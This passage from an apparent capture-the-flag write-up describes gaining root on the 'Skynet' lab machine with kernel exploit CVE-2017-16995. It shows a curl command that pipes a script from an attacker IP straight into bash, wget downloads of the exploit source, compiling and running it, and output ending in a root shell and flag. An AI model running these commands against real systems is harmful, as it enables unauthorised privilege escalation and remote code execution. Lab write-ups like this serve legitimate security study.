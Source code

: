 
#### Privilege escalation using kernel exploit (cve-2017-16995)

Result from Linpeas's linux exploit suggester 2

```bash
www-data@skynet:/var/www/html$ curl 10.11.19.145/linpeas.sh|bash
```

![](/assets/obsidian/545bc31431c42121c80bb305d0de6b7f.png)

Download the exploit 

> https://www.exploit-db.com/exploits/45010

```bash
wget https://www.exploit-db.com/download/45010 -O cve.c
```

```bash
www-data@skynet:/var/www/html$ wget 10.11.19.145/cve.c -O cve.c
--2023-06-19 10:57:49--  http://10.11.19.145/cve.c
Connecting to 10.11.19.145:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11826 (12K) [text/x-csrc]
Saving to: 'cve.c'

cve.c               100%[===================>]  11.55K  --.-KB/s    in 0.003s

2023-06-19 10:57:49 (3.52 MB/s) - 'cve.c' saved [11826/11826]

www-data@skynet:/var/www/html$ gcc cve.c -o cve
www-data@skynet:/var/www/html$ ./cve
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff95a47af30000
[*] Leaking sock struct from ffff95a4462fc400
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff95a4521c8840
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff95a4521c8840
[*] credentials patched, launching shell...

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

# cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```